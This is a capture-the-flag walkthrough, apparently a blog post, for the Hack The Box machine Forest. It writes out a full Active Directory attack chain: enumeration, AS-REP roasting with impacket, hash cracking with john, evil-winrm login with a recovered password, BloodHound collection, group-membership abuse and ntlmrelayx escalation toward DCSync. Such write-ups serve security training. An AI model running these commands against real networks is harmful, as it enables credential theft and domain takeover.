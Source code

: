 ```yaml
---
layout: post
title:  Hack The Box - Forest
category: walkthrough
date:   2020-08-05 05:00:00
---
```


# ![forest](/assets/img/forest/forest.png)  
<p align="center"> Forest is a easy machine created by <a href="https://www.hackthebox.eu/home/users/profile/1190">egre55</a> & <a href="https://www.hackthebox.eu/home/users/profile/2984">mrb3n</a></p>  

# ENUM  
### <center>nmap</center>  
<hr>  
nmap -sC -Pn -sV -T4 10.10.10.161  
<hr>  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-08-05 07:30 -03  
>Nmap scan report for 10.10.10.161  
>Host is up (0.23s latency).  
>Not shown: 989 closed ports  
>PORT     STATE SERVICE      VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP:   
>|     version  
>|_    bind  
>88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-08-05 10:41:15Z)  
>135/tcp  open  msrpc        Microsoft Windows RPC  
>139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn  
>389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=8/5%Time=5F2A8A51%P=x86\_64-pc-linux-gnu%r(DNSVe  
>SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x  
>SF:04bind\0\0\x10\0\x03");  
>Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows  

>Host script results:  
>|_clock-skew: mean: 2h30m39s, deviation: 4h02m31s, median: 10m37s  
>| smb-os-discovery:   
>|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)  
>|   Computer name: FOREST  
>|   NetBIOS computer name: FOREST\x00  
>|   Domain name: htb.local  
>|   Forest name: htb.local  
>|   FQDN: FOREST.htb.local  
>|_  System time: 2020-08-05T03:43:35-07:00  
>| smb-security-mode:   
>|   account\_used: guest  
>|   authentication\_level: user  
>|   challenge\_response: supported  
>|_  message_signing: required  
>| smb2-security-mode:   
>|   2.02:   
>|_    Message signing enabled and required  
>| smb2-time:  
>|   date: 2020-08-05 07:43:36  
>|_  start\_date: 2020-08-05 06:33:34  

>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 277.86 seconds  

<center>Nmap gives me the domain htb.local</center>  
<p align="center">Now I need usernames to try use <a href="https://github.com/ifconfig-me/impacket">impacket</a></p><br>  
  
### <center>enum4linux</center>  
<p align="center"><a href="https://github.com/CiscoCXSecurity/enum4linux">enum4linux</a> 10.10.10.161</p><br>  
<center>enum4linux shows a list of users</center>  
# ![user](/assets/img/forest/forest1.png)  
  
# exploit  
  
<center>Now I can use impacket's GetNPUser.py</center>  
### <center>impacket</center>  
<hr>  
<center>./GetNPUsers.py htb.local/ -usersfile users.txt -dc-ip 10.10.10.161 -no-pass</center>  
<hr>  
<center>Impacket found the hash of svc-alfresco user</center>  
# ![hash](/assets/img/forest/forest15.png)  
<center>John will help me to crack it</center>
<hr>
<center>john -w=/usr/share/wordlists/rockyou.txt hash.as</center>  
<hr>
# ![pass](/assets/img/forest/forest3.png)  
  
<p align="center"><a href="https://github.com/Hackplayers/evil-winrm">evil-winrm</a> to acess the machine</p><br>  
<hr>
<center>./evil-winrm.rb -i 10.10.10.161 -p s3rvice -u svc-alfresco</center>  
<hr>
# ![shell](/assets/img/forest/forest4.png)    
# Privilege Escalation  
### <center>bloodhound</center>  
<center>The hound</center>  
<hr>  
<center>./bloodhound.py -d htb.local -ns 10.10.10.161 -u svc-alfresco -p s3rvice -c all</center>  
<hr>
# ![bloodHound](/assets/img/forest/forest5.png)  
  
<center>Just zip all the .json file and send to bloodhound</center>  
<p align="center"> svc-alfresco is member of <a href="https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11)">Account Operators</a></p>  
# ![group](/assets/img/forest/forest6.png)  

# ![exchange1](/assets/img/forest/forest7.png) 
<center>And exchange windows permissons group has WriteDacl</center> 
# ![exchange2](/assets/img/forest/forest8.png)  
# ![writDacl](/assets/img/forest/forest9.png)  

<center>If I add a user to Exchange Windows Permissions group I'll be able to do a DCSync attack</center>  
### <center>impacket</center>  
<center>net group "Exchange Windows Permissions" svc-alfresco /add</center>  
# ![netGroup](/assets/img/forest/forest10.png)  
<center>to add svc-alfresco in the group<br>  
and impacket's ntlmrelayx.py<br>  
<br><hr>
ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco<br>  
<hr><br>
Logged as svc-alfresco in localhost</center>  
# ![localhost](/assets/img/forest/forest11.png)  
<center>and..</center>  
# ![ntlmrelayx](/assets/img/forest/forest12.png)  
<center>Ready for secretsdump</center>  
# ![secretsDump](/assets/img/forest/forest13.png)  
<center>Evil again as admin</center>  
# ![evilAdmin](/assets/img/forest/forest14.png)  
